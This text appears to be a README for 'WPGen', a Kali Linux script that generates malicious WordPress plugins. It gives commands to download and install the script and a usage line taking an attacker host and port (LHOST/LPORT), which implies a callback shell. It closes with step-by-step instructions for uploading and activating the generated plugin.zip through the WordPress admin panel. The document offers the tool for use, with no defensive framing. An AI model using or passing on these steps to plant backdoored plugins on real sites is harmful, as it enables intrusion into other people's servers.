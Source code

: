 # WPGen

**Auto Generator Malicious Plugins WordPress**

![](/1.png)

- <kbd>Download / Install</kbd>

```cmd
root@kali:~# wget -q "https://raw.githubusercontent.com/trhacknon/WPGen/main/WPGen.sh" -O /usr/bin/WPGen
root@kali:~# chmod +x /usr/bin/WPGen
```

- <kbd>Use</kbd>

```cmd
root@kali:~# WPGen -h <LHOST> -p <LPORT>
```

- <kbd>Cheat Sheet</kbd>

  * Plugins
    * Add New
    * Upload Plugin
    * Examine
    * Select `plugin.zip`
    * Install New
    * Activate Plugin

---
